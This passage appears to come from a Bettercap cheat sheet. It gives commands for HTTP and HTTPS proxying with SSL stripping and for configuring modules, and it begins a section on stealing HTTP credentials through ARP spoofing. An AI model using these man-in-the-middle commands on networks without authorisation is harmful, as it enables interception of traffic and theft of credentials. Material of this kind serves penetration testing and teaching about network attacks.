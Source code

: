 Bettercap can intercept HTTP traffic and downgrade HTTPS traffic to HTTP, allowing attackers to view and manipulate data in plain text.

1. **Enable HTTP Proxy**:
   ```bash
   http.proxy on
   ```
   - **Explanation**: Activates an HTTP proxy to intercept and manipulate HTTP traffic.

2. **Set Up HTTPS Downgrade**:
   ```bash
   set https.proxy.sslstrip true
   https.proxy on
   ```
   - **Explanation**:
     - `https.proxy.sslstrip true`: Enables SSL stripping, which forces HTTPS requests to downgrade to HTTP.
     - `https.proxy on`: Starts the HTTPS proxy for interception.

3. **Stop HTTP/HTTPS Proxy**:
   ```bash
   https.proxy off
   http.proxy off
   ```

---

### **Module Control**

Bettercap operates with several modules, each focusing on different types of attacks, monitoring, and traffic manipulation. Modules can be controlled with `help`, `show`, and `set` commands.

1. **Show Active Modules**:
   ```bash
   show modules
   ```
   - **Explanation**: Lists all the active and available modules you can use.

2. **Configure a Module**:
   ```bash
   set <module_name> <value>
   ```
   - **Example**:
     ```bash
     set net.sniff.output /home/user/capture.pcap
     ```
   - **Explanation**: Sets a specific parameter for a module (e.g., changing output location for traffic sniffing).

---

### **Common MITM Attacks**

#### **1. HTTP Credentials Stealing**
By combining ARP spoofing and HTTP sniffing, you can steal unencrypted HTTP credentials.
